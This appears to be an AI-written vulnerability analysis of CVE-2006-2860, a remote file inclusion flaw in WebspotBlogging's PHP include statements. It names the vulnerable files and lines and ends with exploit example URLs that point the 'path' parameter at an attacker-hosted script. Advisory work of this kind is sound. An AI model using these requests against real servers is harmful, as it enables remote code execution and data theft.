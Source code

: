 Based on the provided content, here's an analysis of CVE-2006-2860:

**Root Cause of Vulnerability:**
The vulnerability is a Remote File Inclusion (RFI) flaw. The `path` parameter in several PHP files of WebspotBlogging is not properly sanitized, allowing an attacker to include remote files.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The primary vulnerability is the ability to include arbitrary remote files via the `path` parameter. This occurs in:
    - `inc/logincheck.inc.php`
    - `inc/adminheader.inc.php`
    - `inc/global.php`
    - `inc/mainheader.inc.php`
- **Lack of Input Sanitization:** The application fails to sanitize or validate user-supplied input, specifically the `path` variable, before using it in an include statement.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** By including a malicious remote file, an attacker can execute arbitrary code on the server.
- **Data Theft/Manipulation:** The attacker may gain access to sensitive data, modify existing content, or deface the website.
- **System Compromise:** If the web server runs with high privileges, the attacker could potentially compromise the entire system.
- **Website Defacement:** Remote inclusion could display malicious content on the website.

**Attack Vectors:**
- **HTTP GET Request:** Attackers send specially crafted HTTP GET requests to the vulnerable scripts, manipulating the `path` parameter to include a malicious remote script.
- **Direct Access to Vulnerable Files:** The attacker directly accesses files like `inc/logincheck.inc.php`, `inc/adminheader.inc.php`, `inc/global.php`, or `inc/mainheader.inc.php` and appends the `path` parameter with a malicious URL.

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker must have network access to the vulnerable WebspotBlogging installation.
- **Knowledge of Vulnerable Files and Parameters:** The attacker needs to know the locations of the vulnerable files and the name of the vulnerable parameter (`path`).
- **Remote Server for Malicious Scripts:** The attacker needs a remote server where they host the malicious PHP script they wish to include.

**Technical Details:**
- Vulnerable files and lines include:
    - `tmp/webspotblogging_3-01/Upload/inc/logincheck.inc.php` Line 28: `include($path."inc/footer.inc.php");`
    - `tmp/webspotblogging_3-01/Upload/inc/adminheader.inc.php` Line 18: `include($path."inc/global.php");`
    - `tmp/webspotblogging_3-01/Upload/inc/mainheader.inc.php` Line 18: `include($path."inc/global.php");`

**Exploit Example:**
- `http://www.site.com/[Webspotblogging_path]/inc/logincheck.inc.php?path=[evil_scripts]`
- `http://www.site.com/[Webspotblogging_path]/inc/adminheader.inc.php?path=[evil_scripts]`
- `http://www.site.com/[Webspotblogging_path]/inc/global.php?path=[evil_scripts]`
- `http://www.site.com/[Webspotblogging_path]/inc/mainheader.inc.php?path=[evil_scripts]`
   - Where `[Webspotblogging_path]` is the path to the WebspotBlogging installation and `[evil_scripts]` is the URL of the attacker's malicious script.

The provided information from Exploit-DB and arfis.wordpress.com provides greater detail than the typical CVE description.